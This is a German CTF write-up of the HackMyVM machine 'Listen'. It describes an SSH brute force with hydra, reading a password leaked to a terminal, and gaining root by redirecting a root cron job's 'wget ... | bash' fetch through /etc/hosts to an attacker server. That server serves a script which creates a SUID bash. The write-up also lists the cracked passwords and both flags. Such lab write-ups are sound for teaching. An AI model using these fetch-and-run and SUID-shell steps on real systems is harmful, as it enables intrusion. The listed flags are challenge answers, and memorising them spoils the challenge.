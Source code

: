 # Listen - HackMyVM (Medium)

![Listen.png](Listen.png)

## Übersicht

*   **VM:** Listen
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Listen)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 5. November 2022
*   **Original-Writeup:** https://alientec1908.github.io/Listen_HackMyVM_Medium/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser Challenge war es, Root-Rechte auf der Maschine "Listen" zu erlangen. Der initiale Zugriff erfolgte durch das Finden eines Passwort-Hashes für den Benutzer `leo` auf der Webseite der Maschine. Nach dem Knacken des Passworts wurde per SSH Zugriff als `leo` erlangt. Lateral Movement zu den Benutzern `silence` und `listen` war durch das Ausnutzen unsicherer Skripte und Passwort-Weitergabemechanismen möglich. Die finale Privilegieneskalation zu Root gelang durch das Hijacking eines Cronjobs, der als Root `wget` benutzte, um ein Skript von einem (manipulierbaren) Hostnamen herunterzuladen und direkt mit `bash` auszuführen.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `gobuster`
*   `echo`
*   `hydra`
*   `ssh`
*   `file`
*   `python3` (`http.server` Modul)
*   `wget`
*   `ps`
*   `su`
*   `nano` / `vi`
*   Standard Linux-Befehle (`ls`, `cat`, `who`, `w`, `sh`, `cp`, `chmod`, `bash`, `id`, `cd`, etc.)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Listen" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Information Disclosure:**
    *   IP-Adresse des Ziels (192.168.2.111) mit `arp-scan` identifiziert.
    *   Ein erster `nmap`-Scan zeigte Port 22 (SSH) und 80 (HTTP) als `filtered`.
    *   `gobuster` auf Port 80 fand jedoch `index.html`.
    *   Im Quellcode von `index.html` wurde ein Passwort-Hash für den Benutzer `leo` im Shadow-Format (`$6$...`) und ein Gedicht gefunden, das als Hinweis auf das Passwort diente.

2.  **Credential Access & Initial Access (SSH als `leo`):**
    *   Mittels `hydra` wurde ein Brute-Force-Angriff auf den SSH-Dienst (Port 22) für den Benutzer `leo` mit einer auf dem Gedicht basierenden Wortliste durchgeführt. Das Passwort `contribute` wurde gefunden.
    *   Erfolgreicher SSH-Login als `leo` mit den gefundenen Credentials.

3.  **Privilege Escalation Vector Discovery & Lateral Movement (`leo` -> `silence` -> `listen`):**
    *   Im Home-Verzeichnis von `leo` wurde eine SUID/SGID-ELF-Datei namens `poem` gefunden.
    *   Die Prozessliste (`ps -ef`) offenbarte einen Cronjob, der als `root` minütlich `/home/listen/listentome.sh` ausführt, welches wiederum `wget -O - -q http://listen/ihearyou.sh | bash` ausführt.
    *   Lateral Movement zu `silence` mit dem Passwort `listentome` (Quelle des Passworts im Log unklar, vermutlich durch Analyse von `poem` oder anderem Leak).
    *   Im Home-Verzeichnis von `silence` fand sich die Datei `note.txt` (Hinweis auf `listen`'s Passwort) und `listen.sh`, ein Skript, das `/home/listen/password.txt` nach `/dev/pts/4` schreibt.
    *   Durch Beobachten von `/dev/pts/4` (auf dem `silence` angemeldet war) konnte das Passwort für `listen` (`shhhhhh`) ausgelesen werden, als `listen.sh` (vermutlich durch einen Cronjob von `listen`) ausgeführt wurde.
    *   Lateral Movement zu `listen` mit `su listen` und dem Passwort `shhhhhh`.
    *   Die User-Flag (`HMVimlistening`) wurde in `/home/listen/user.txt` gefunden.

4.  **Privilege Escalation (`listen` -> `root` via Cronjob Hijack):**
    *   Der zuvor identifizierte Root-Cronjob (`wget http://listen/ihearyou.sh | bash`) wurde ausgenutzt.
    *   Auf dem Angreifer-System wurde eine bösartige `ihearyou.sh`-Datei erstellt, die eine SUID-Bash-Kopie erstellt (`cp /bin/bash /tmp/bashroot; chmod +s /tmp/bashroot`).
    *   Ein Python-HTTP-Server wurde auf dem Angreifer-System auf Port 80 gestartet, um `ihearyou.sh` bereitzustellen.
    *   Auf dem Zielsystem wurde als Benutzer `listen` die Datei `/etc/hosts` bearbeitet (Schreibrechte hierfür sind ungewöhnlich für einen normalen Benutzer, aber im Writeup so durchgeführt), um den Hostnamen `listen` auf die IP-Adresse des Angreifer-Systems umzuleiten.
    *   Nachdem der Cronjob die Datei `ihearyou.sh` vom Angreifer-Server heruntergeladen und als Root ausgeführt hatte, wurde die SUID-Datei `/tmp/bashroot` erstellt.
    *   Als Benutzer `listen` wurde `/tmp/bashroot -p` ausgeführt, was aufgrund des SUID-Bits eine Root-Shell lieferte.
    *   Die Root-Flag (`HMVthxforlisten`) wurde in `/root/root.txt` gefunden.

## Wichtige Schwachstellen und Konzepte

*   **Information Disclosure (Passwort-Hash auf Webseite):** Ein Passwort-Hash und ein Hinweis auf das Passwort waren öffentlich auf der Webseite zugänglich.
*   **Schwache Passwörter:** Das Passwort für `leo` konnte durch Brute-Force erraten werden.
*   **Unsichere Skripte und Passwort-Weitergabe:** Skripte, die Passwörter im Klartext speicherten oder an unsichere Orte (wie TTYs) schrieben, ermöglichten Lateral Movement.
*   **Cronjob Hijacking (`wget | bash`):** Ein als Root laufender Cronjob lud ein Skript über HTTP von einem Hostnamen herunter und führte es direkt mit `bash` aus. Durch Manipulation der DNS-Auflösung (hier: `/etc/hosts`-Datei) und Bereitstellung eines bösartigen Skripts konnte Code als Root ausgeführt werden.
*   **SUID/SGID Binary:** Die Datei `poem` hatte SUID/SGID-Bits, was einen potenziellen, wenn auch nicht final genutzten, Eskalationsvektor darstellte.
*   **Manipulierbare `/etc/hosts`-Datei:** Die Möglichkeit für den Benutzer `listen`, die `/etc/hosts`-Datei zu bearbeiten, war entscheidend für den Cronjob-Hijack.

## Flags

*   **User Flag (`/home/listen/user.txt`):** `HMVimlistening`
*   **Root Flag (`/root/root.txt`):** `HMVthxforlisten`

## Tags

`HackMyVM`, `Listen`, `Medium`, `Information Disclosure`, `Password Cracking`, `SSH`, `Cronjob Hijack`, `wget | bash`, `/etc/hosts manipulation`, `Lateral Movement`, `Linux`, `Privilege Escalation`
